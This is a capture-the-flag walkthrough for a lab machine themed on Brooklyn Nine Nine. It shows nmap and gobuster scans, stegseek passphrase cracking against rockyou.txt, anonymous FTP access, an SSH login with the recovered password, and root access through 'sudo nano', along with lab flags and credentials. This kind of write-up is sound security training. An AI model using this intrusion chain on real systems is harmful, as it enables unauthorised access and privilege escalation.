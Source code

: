 ``ip:`` 10.10.210.113

## Enumeration
#### Nmap
```r
nmap -sV -sC 10.10.210.113 -p- --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 22:03 EST
Nmap scan report for 10.10.210.113
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 682 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.198.175
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results 
```
``Found:``
- A vulnerable FTP server that accepts ``"Anonymous"`` login
- SSH server running on port 22
- Vulnerable HTTP Server running port 80

Let us visit the webpage on port 80

### Website enumeration:
Nothing much to see on the "Homepage", just the movie picture and something about the picture scaling to the browser's screen size.
Let's check the source code:
We found something:
```r
</style>
</head>
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
</html>
```
Stenography? What is that?
_Steganography is the technique of hiding data within an ordinary, nonsecret file or message to avoid detection; the hidden data is then extracted at its destination. Steganography use can be combined with encryption as an extra step for hiding or protecting data._
Something to think about going forth: 

#### Gobuster
Let us use an automated tool called gobuster to brute force sub domains on our target webpage
```r
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://brooklyn99.thm
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://brooklyn99.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 61222 / 87665 (69.84%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 61236 / 87665 (69.85%)
===============================================================
Finished
===============================================================
```
Nothing in Gobuster.

Let us go back to the stenography stuff. By using Gobuster we were not able to find an image sub domains but we see that the website has a picture as it's cover page.

Let us save that picture as ``brooklyn99.jpg`` and use ``stegseek`` to analyze it for hidden files and folders. You can install stegseek by using this command: ``sudo apt install stegseek``

### Stenography 
Using stegseek: 
```r
stegseek --crack -sf ~/Pictures/brooklyn99.jpg -wl /usr/share/wordlists/rockyou.txt -xf steg.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "steg.txt".
```
We use the ``--crack ``option to brute-force for secrets and hidden files using the ``rockyou.txt`` wordlist and save the results in a text file called ``steg.txt``.

Let open steg.txt to view contents:
```r
cat steg.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```
``Credentials:`` ``username``: Holts and ``password``: fluffydog12@ninenine

### FTP
Remember the vulnerable ftp server. Let us go and actively enumerate it.
```r
ftp brooklyn99.thm
Connected to brooklyn99.thm.
220 (vsFTPd 3.0.3)
Name (brooklyn99.thm:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36069|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```
While enumerating the ftp server, we found a note ``"note_to_jake.txt"``. Let's download that file to our host machine and view the content.
```r
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||62183|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |*********************************************************|   119        1.89 MiB/s    00:00 ETA
226 Transfer complete.
```

```r
cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Wow, we found three user:
- Holt
- Jake
- Amy

Let us quickly login into the target machine before holts does.

### SSH
```r
ssh holt@10.10.210.113
holt@10.10.210.113's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 

```
We are in Holt's account. ``{COMPROMISED}``

Right from his desktop we can get the user.txt flag
```r
holt@brookly_nine_nine:~$ ls -l
total 8
-rw------- 1 root root 110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt  33 May 17  2020 user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```

## Privilege Escalation
I look everything including crontab, .ssh keys but nothing to show how to escalate my privileges, not unless I ran ``sudo -l``

```r
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
The Holt user can actually run as ``root`` with no password through ``/bin/nano``. ``{Vulnerability}``

Let us use ``GTO bins`` to find the appropriate commands to get root privileges.

Since he can use nano without restrictions, then let's open the root.txt file by using 
```r
holt@brookly_nine_nine:~$ sudo nano /root/root.txt
```

```r
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

